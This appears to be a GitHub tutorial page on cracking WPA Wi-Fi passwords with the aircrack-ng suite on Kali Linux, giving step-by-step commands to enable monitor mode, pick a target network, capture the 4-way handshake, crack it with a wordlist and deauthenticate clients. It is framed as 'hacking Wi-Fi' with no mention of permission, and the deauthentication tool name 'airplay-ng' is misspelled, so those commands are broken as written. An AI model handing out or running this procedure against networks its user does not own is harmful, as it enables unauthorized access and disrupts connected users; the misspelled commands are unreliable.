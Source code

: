 ### **Requirements:**

1. **Hardware Requirements:**
    
    - **Base Machine:** Kali Linux.
    - **Network Adapter:**
        - Use an **external adapter** or add a compatible one to your virtual machine.
    - **Extension Pack:** Ensure the VirtualBox Extension Pack is installed.
2. **VirtualBox Setup:**
    
    - Change the settings to add the USB (network adapter).
    - After connecting the external network adapter, you should:
        - Be able to access the internet inside the Kali machine.
        - Verify the adapter with the `ip a` command.
3. **Promiscuous Mode and Monitor Mode:**
    
    - **Promiscuous Mode:** Allows Ethernet adapters to see all packets.
    - **Monitor Mode:** Required for wireless adapters to capture packets.

---

### **Understanding the Wi-Fi Password Process:**

- **4-Way Handshake:**
    - A critical exchange during Wi-Fi authentication.
    - If these handshake packets are captured correctly, they can be cracked to reveal the password.

---

### **Tools Used:**

1. **airmon-ng:** Enables monitoring mode.
2. **airodump-ng:** Captures Wi-Fi data packets.
3. **aircrack-ng:** Cracks Wi-Fi passwords.
4. **airplay-ng:** Disconnects clients from the network to force reconnections (for EAPOL packet capture).

---

### **Steps to Hack Wi-Fi:**

#### **1. Enable Monitor Mode:**

1. Start monitoring mode:
    ```bash
    sudo airmon-ng
    sudo airmon-ng start wlan0
    ip a  # Verify the adapter is now in monitoring mode (e.g., wlan0mon)
    ```
#### **2. Identify the Target Wi-Fi Network:**

1. Scan for Wi-Fi networks:
    ```bash
    sudo airodump-ng --band bg wlan0
    ```
    
    - Note the **channel number** and **MAC address** of the Wi-Fi network you want to hack.

#### **3. Capture 4-Way Handshake Packets:**

1. Start packet capturing in a new terminal:
    
    ```bash
    mkdir hackwifi && cd hackwifi
    sudo airodump-ng -c <channel-number> --bssid <mac-address> -w hack wlan0mon
    ```
    
    - **Options:**
        - `-c`: Channel number of the target network.
        - `--bssid`: MAC address of the target network.
        - `-w hack`: Output filename (`hack` in this example).

---

#### **4. Crack the Password:**

1. **Wordlist Preparation:**
    
    - Use a pre-existing wordlist or create your own. Example:
        
        ```bash
        cp /usr/share/metasploit-framework/data/wordlists/password.lst wordlist
        ```
        
2. **Crack the Handshake Packets:**
    
    ```bash
    aircrack-ng -w wordlist -b <mac-address> hack-01.cap
    ```
    
    - **Options:**
        - `-w`: Path to the wordlist.
        - `-b`: MAC address of the target Wi-Fi.
        - `hack-01.cap`: File created during handshake capture.
    - The tool scans the wordlist and reveals the password within seconds if it's present in the list.

---

#### **5. Force Client Disconnection (Optional):**

- Use `airplay-ng` to disconnect clients from the network. This forces reconnections, making it easier to capture EAPOL packets. Example:
    
    ```bash
    sudo airplay-ng -0 <number_of_deauth_packets> -a <bssid> wlan0mon
    ```
    

---

## **Extra**

### **4-Way Handshake:**

The 4-Way Handshake is a process used in Wi-Fi networks to securely connect a device to a router. Here's how it works:

1. **Purpose:** It ensures that both the router and the device know the Wi-Fi password without directly sharing it.
2. **Steps:**
    - The router sends a random number (Nonce) to the device.
    - The device uses this number and the password to create a unique response.
    - The router verifies the response.
    - Both sides agree on encryption keys for secure communication.

If you capture these handshake packets, you can use tools to crack the Wi-Fi password.

---